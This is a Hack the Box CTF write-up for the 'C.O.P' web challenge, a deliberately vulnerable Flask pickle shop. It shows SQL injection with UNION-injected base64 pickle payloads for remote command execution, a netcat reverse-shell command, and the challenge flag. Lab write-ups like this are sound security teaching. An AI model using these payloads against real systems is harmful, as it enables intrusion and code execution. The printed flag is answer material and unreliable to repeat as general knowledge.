

# Writeup "C.O.P"

## Quick Info

<table>
   <tr><td><b> site       </b></td><td> Hack the Box                                           </td></tr>
   <tr><td><b> url        </b></td><td> https://app.hackthebox.com/challenges/cop              </td></tr>
   <tr><td><b> discussion </b></td><td> https://forum.hackthebox.com/t/official-c-o-p-discussion/264615 </td></tr>
   <tr><td><b> type       </b></td><td> challenge/web                                          </td></tr>
   <tr><td><b> difficulty </b></td><td> easy                                                   </td></tr>
   <tr><td><b> startdate  </b></td><td> 2022-09-28                                             </td></tr>
   <tr><td><b> enddate    </b></td><td> 2022-12-16                                             </td></tr>
</table>

## Description

> The C.O.P (Cult of Pickles) have started up a new web store to sell their merch. We believe that the funds are being used to carry out illicit pickle-based propaganda operations! Investigate the site and try and find a way into their operation!

## Solution

We receive an IP and port to a server and a zip file containing the _Python Flask_ application deployed on the server. According to the `Dockerfile`, the application is deployed in the `/app` directory and the `supervisord.conf` file lists paths to log files. The page displays a basic pickle-themed webshop. Since the application uses the Python package `pickle`, this might be a hint.

<p align="center">
   
</p>

The page does not seem have any fields for user input and no cookies are used. The only place where any parameter can be manipulated is the endpoint for a product detail page, `/view/<product_id>`.

When we inspect the files `routes.py`, `models.py`, and `database.py`, we see that the value of `<product_id>` is used for a _sqlite3_ database query without ever being sanitized! As a test, we try the payload `/view/3';--` and the system displays the page correctly:

<p align="center">
   
</p>

Now to find out how to exploit the vulnerability. As a first step, we try to execute the following SQLite commands using the vulnerability:

```
/view/3';INSERT INTO products (data) VALUES ("gASVgwAAAAAAAACMCF9fbWFpbl9flIwESXRlbZSTlCmBlH2UKIwEbmFtZZSMClRlc3QgVGl0bGWUjAtkZXNjcmlwdGlvbpSMCVRlc3QgRGVzY5SMBWltYWdllIwfL3N0YXRpYy9pbWFnZXMvcGlja2xlX3NoaXJ0LmpwZ5SMBXByaWNllIwDOTk5lHViLg==");--
/view/3';UPDATE products SET data='gASVgwAAAAAAAACMCF9fbWFpbl9flIwESXRlbZSTlCmBlH2UKIwEbmFtZZSMClRlc3QgVGl0bGWUjAtkZXNjcmlwdGlvbpSMCVRlc3QgRGVzY5SMBWltYWdllIwfL3N0YXRpYy9pbWFnZXMvcGlja2xlX3NoaXJ0LmpwZ5SMBXByaWNllIwDOTk5lHViLg==' WHERE id=3;--
```

However, this returns an internal server error. When we run the application locally using docker, we get the following error message in the terminal:

``` bash
sqlite3.Warning: You can only execute one statement at a time.
```

Only one query can be used at a time; query stacking is therefore not possible. We try to use a `UNION` statement instead:

``` sql
http://127.0.0.1:1337/view/1' AND FALSE UNION SELECT data FROM products WHERE id='3';--
```

This works and displys the "Dill Pickle Jar" page instead of the "Pickle Shirt" page.

Now we have to include a payload. Further analysis of the source code shows that the shop's products are stored in the database as pickled objects. When they are retrieved for generating a web page, these pickled objects are unpickled without any security precautions. The unpickling happens using the custom template filter `pickle` defined in `app.py`.

A web search for _"flask pickle vulnerability"_ gives us a web page describing pickeling in Python and why it is vulnerable when improperly used and how to exploit it [^1]. A second page has the source code for a small tool for generating suitable payloads [^2]. Using this tool, we generate a first test payload:

``` bash
> python3 exploit.py "uname -a"
Payload (Base64) => Y3Bvc2l4CnN5c3RlbQpwMAooVnVuYW1lIC1hCnAxCnRwMgpScDMKLg==
```

We adapt our query so that the page receives our payload instead of the product[^4]. As soon as the page unpickles the payload, it will get executed:

``` sql
http://127.0.0.1:1337/view/1' AND FALSE UNION VALUES ("Y3Bvc2l4CnN5c3RlbQpwMAooVnVuYW1lIC1hCnAxCnRwMgpScDMKLg==");--
```

We are successful! In the docker output, we see the output of our command:

<p align="center">
   
</p>

After a lot of experimenting[^3], we find a working combination for a netcat shell. The command executed on the target is:

``` bash
> python3 exploit.py "nc host.docker.internal 1234 -e /bin/sh"
Payload (Base64) => Y3Bvc2l4CnN5c3RlbQpwMAooVm5jIGhvc3QuZG9ja2VyLmludGVybmFsIDEyMzQgLWUgL2Jpbi9zaApwMQp0cDIKUnAzCi4=
```

It is very important to use `host.docker.internal` as the target host for the reverse shell. Furthermore, it was not possible to use `/bin/sh -i` as command since this would always trigger an error on the target machine.

On the host machine, the following command was executed:

``` bash
> nc -l -p 1234
```

This resulted in a working reverse shell:

<p align="center">
   
</p>

However, when trying to replicate this solution on the real system, we soon realize that this solution does not work. Apparently, it is not possible to access external IP addresses from a Docker container.

This setback leads to the realization that a reverse shell had been overkill. Since we can already execute arbitrary shell commands at the target machine, we can just copy the flag to a location where we can access it on the web site.

We create a new payload:

``` bash
> python3 exploit.py "cp /app/flag.txt /app/application/static/flag.txt"
Payload (Base64) => Y3Bvc2l4CnN5c3RlbQpwMAooVmNwIC9hcHAvZmxhZy50eHQgL2FwcC9hcHBsaWNhdGlvbi9zdGF0aWMvZmxhZy50eHQKcDEKdHAyClJwMwou
```

And after calling the vulnerable page once using this payload, we find the flag where we just put it:

<p align="center">
   
</p>

The flag is therefore:

```
HTB{n0_m0re_p1ckl3_pr0paganda_4u}
```

### Sources

[^1]: https://davidhamann.de/2020/04/05/exploiting-python-pickle/
[^2]: https://github.com/shafdo/pickle-payload-gen-python3
[^3]: https://www.varonis.com/blog/netcat-commands
[^4]: https://www.sqlitetutorial.net/sqlite-union/

